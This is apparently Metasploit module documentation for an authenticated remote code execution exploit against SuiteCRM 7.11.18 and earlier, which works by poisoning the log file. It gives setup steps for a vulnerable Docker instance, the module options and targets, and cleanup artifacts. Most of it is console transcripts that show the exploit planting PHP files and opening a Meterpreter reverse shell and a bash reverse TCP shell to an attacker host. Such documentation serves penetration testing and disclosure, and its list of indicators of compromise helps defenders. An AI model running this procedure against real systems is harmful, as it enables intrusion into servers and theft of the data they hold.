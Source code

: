 ## Vulnerable Application

SuiteCRM versions 7.11.18 and below. https://docs.suitecrm.com/admin/releases/7.11.x/#_7_11_18  

### Installation
Installation: https://docs.suitecrm.com/admin/installation-guide/downloading-installing/  

The fastest way to stand up a quick test instance is with docker. Bitnami hosts docker images and `docker-compose.yml` files.

Docker installation: https://docs.docker.com/get-docker/

```
curl -sSL https://raw.githubusercontent.com/bitnami/bitnami-docker-suitecrm/master/docker-compose.yml > docker-compose.yml
docker-compose up -d
```

You'll just want to edit the docker-compose file to pull the 7.11.18 release before you run `docker-compose up -d`. Example `docker-compose.yml` below:

```
  suitecrm:
    image: docker.io/bitnami/suitecrm:7.11.18
```

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/suitecrm_log_file_rce`
4. Do: `set USER [username]`
5. Do: `set PASS [password]`
6. Do: `set RHOSTS [IP]`
7. Do: `set SRVPORT [IP]`
8. Do: `set LHOST [IP] `
9. Do: `exploit`
10. You should get a shell.

## Options
### USER
Username of a user with administrator access to the SuiteCRM instance

### PASS
Password of the user with administrator access to the SuiteCRM instance

### TARGETURI
The base path to SuiteCRM. The default is `/`

### RESTORECONF
Restore the system log file settings to the default value of `suitecrm.log`. Default value is `true`

### LASTNAME
Last name you'd like to set the admin user back to after running the exploit. Default is `admin`.

### WRITABLEDIR
Any writable directory for paylod to be written. Only used for targets `0` ( `x64 meterpreter` ) and `2` ( `x86 meterpreter` )

## Targets
Default is `0` with a payload of `linux/x64/meterpreter_reverse_tcp`
```
Exploit targets:

   Id  Name
   --  ----
   0   Linux (x64)
   1   Linux (cmd)
```
Currently, this supports
* `linux/x64/meterpreter_reverse_tcp`
* `cmd/unix/bash_reverse_tcp`

There is some encoding/escaping on the php poisoning into the log file, so php code is limited. I would also presume an `x86` meterpreter would run fine, but I haven't tested it. I did test a `cmd/unix/bash_reverse_udp` and it worked fine. I would presume most `cmd` payloads will work contingent on the required tools being available on the victim machine.

### Artifacts/IOC's
Target 0 is going to leave a random, 8 character alphanumeric PHP file such as this
```
ryl2bLse.pHp
```
in the webroot and it will leave a random alphanumeric 8 character file in `WRITABLEDIR` (`/tmp` by default) similar to this
```
uG0QjRbK
```
Operators: keep an eye out for the last couple of lines of output
```
[!] This exploit may require manual cleanup of 'eTHsm71W.pHp' on the target
[!] This exploit may require manual cleanup of '/tmp/54N6HA1E' on the target
```

## Scenarios
### SuiteCRM 7.11.18 Check + Target 0 (linux x64 meterpreter)
```
msf > use exploit/linux/http/suitecrm_log_file_rce
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf exploit(linux/http/suitecrm_log_file_rce) > set RHOSTS 192.168.122.29
RHOSTS => 192.168.122.29
msf exploit(linux/http/suitecrm_log_file_rce) > set USER admin
USER => admin
msf exploit(linux/http/suitecrm_log_file_rce) > set PASS admin
PASS => admin
msf exploit(linux/http/suitecrm_log_file_rce) > set SRVHOST 192.168.122.125
SRVHOST => 192.168.122.125
msf exploit(linux/http/suitecrm_log_file_rce) > set LHOST 192.168.122.125
LHOST => 192.168.122.125
msf exploit(linux/http/suitecrm_log_file_rce) > check

[*] Authenticating as admin
[+] Authenticated as: admin
[+] admin has administrative rights.
[+] SuiteCRM Version 7.11.18
[*] 192.168.122.29:80 - The target appears to be vulnerable.
msf exploit(linux/http/suitecrm_log_file_rce) > exploit

[*] Started reverse TCP handler on 192.168.122.125:4444 
[*] Using URL: http://192.168.122.125:8080/NzzKmKY
[*] Authenticating as admin
[+] Authenticated as: admin
[+] admin has administrative rights.
[*] Modifying systems setting file
[*] Poisoning log file
[*] Executing php code in log file: fxg8pi1C.pHp
[+] 192.168.122.29:80 - Payload sent!
[*] Meterpreter session 1 opened (192.168.122.125:4444 -> 192.168.122.29:43346) at 2021-05-21 22:52:15 -0500
[*] Restoring log file to default configuration
[*] Server stopped.
[!] This exploit may require manual cleanup of 'fxg8pi1C.pHp' on the target
[!] This exploit may require manual cleanup of '/tmp/9yCGovF5' on the target

meterpreter > getuid
Server username: daemon @ bb77d61a4df1 (uid=1, gid=1, euid=1, egid=1)
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.21.0.3 - Meterpreter session 1 closed.  Reason: User exit
```
### SuiteCRM 7.11.18 Check + Target 1 (Unix bash reverse TCP shell)
This was run immediately after the previous scenario. Initialization is exactly the same.
```
msf exploit(linux/http/suitecrm_log_file_rce) > sessions -i

Active sessions
===============

No active sessions.

msf exploit(linux/http/suitecrm_log_file_rce) > set target 1
target => 1
msf exploit(linux/http/suitecrm_log_file_rce) > run

[*] Started reverse TCP handler on 192.168.122.125:4444 
[*] Using URL: http://192.168.122.125:8080/Kle8QoPV
[*] Authenticating as admin
[+] Authenticated as: admin
[+] admin has administrative rights.
[*] Modifying systems setting file
[*] Poisoning log file
[*] Executing php code in log file: 1cOyYGE3.pHp
[+] 192.168.122.29:80 - Payload sent!
[*] Command shell session 2 opened (192.168.122.125:4444 -> 192.168.122.29:43366) at 2021-05-21 22:53:03 -0500
[*] Restoring log file to default configuration
[*] Server stopped.
[!] This exploit may require manual cleanup of '1cOyYGE3.pHp' on the target

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
whoami
daemon
exit
[*] 192.168.122.29 - Command shell session 2 closed.

```

